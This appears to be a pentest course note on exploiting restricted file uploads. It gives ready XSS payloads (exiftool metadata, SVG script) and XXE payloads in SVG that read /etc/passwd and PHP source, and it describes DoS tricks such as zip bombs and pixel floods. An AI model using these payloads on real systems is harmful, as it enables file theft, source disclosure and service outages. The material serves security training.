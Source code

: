 # Limited File Uploads
***

### XSS
####  Through many file types it's possible to exploit a Stored XSS vulnerability, by uploading malicious versions of them.
#### An example is when a web application let us upload HTML files. Consequently , it would be possible to implement JS code in them to carry an XSS or CSRF attack on whoever visits the uploaded HTML page.
#### Other example of XSS attacks is web applications that display an image's metadata after its upload. We can include an XSS payload in one of the Metadata parameters that accept raw text, like the **Comment** or *+Artists** parameters:
```bash
$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
$ exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

#### In some cases we can change the image's MIME-Type to text/html, because some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.
#### It is also possible to use **SVG** images to carry XSS attacks by modifying their XML data to include an XSS payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE (XML external entity)
#### With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server.
#### Example using a svg image that exfiltrates content of (/etc/passwd).
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
#### Access to the source code will provide ways to find more vulnerabilities to exploit within the web application through **Whitebox Penetration Testing**. Even for file upload exploitation, allowing us to **locate the upload directory, identify allowed extensions, or find the file naming scheme**.
#### Example using XXE to read source code in PHP web apps, we can use the following payload in our SVG image:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
#### Using XML data isn't exclusive to SVG images; it's also common in various document types, such as PDFs, Word documents, PowerPoint presentations, and others. These documents rely on XML data to define their format and structure. If a web application has a document viewer that is vulnerable to XXE and permits the upload of these document types, an attacker could potentially insert malicious XXE elements into the XML data. This could then be exploited to perform a blind XXE attack on the backend server.

### DoS
#### File upload vulnerabilities can often result in Denial of Service (DoS) attacks on a web server. For instance, the XXE payloads mentioned earlier can be leveraged to execute DoS attacks, as covered in the Web Attacks module.
#### Additionally, a Decompression Bomb can be used with file formats that support data compression, like ZIP files. If a web application automatically extracts uploaded ZIP archives, an attacker could upload a malicious archive containing multiple nested ZIP files. This could expand to several petabytes of data, overwhelming the backend server and causing it to crash.
#### Another potential DoS attack is the Pixel Flood attack, which targets image files that use compression, such as JPG or PNG formats. An attacker could create a JPG image with a normal size (e.g., 500x500 pixels) and then modify its compression data to falsely indicate a much larger size (e.g., 0xffff x 0xffff pixels), resulting in an image perceived as 4 Gigapixels. When the web application tries to render this image, it would attempt to allocate an excessive amount of memory, leading to a server crash.
#### Other methods to trigger a DoS include uploading excessively large files, as some upload forms may not enforce size limits or validate file size before uploading. This could fill the server's storage space, causing it to crash or significantly slow down.
#### If the upload function is vulnerable to directory traversal, an attacker could try uploading files to unintended directories (e.g., ../../../etc/passwd), potentially causing the server to crash. There are various other DoS attacks that can be executed through vulnerable file upload functionalities.





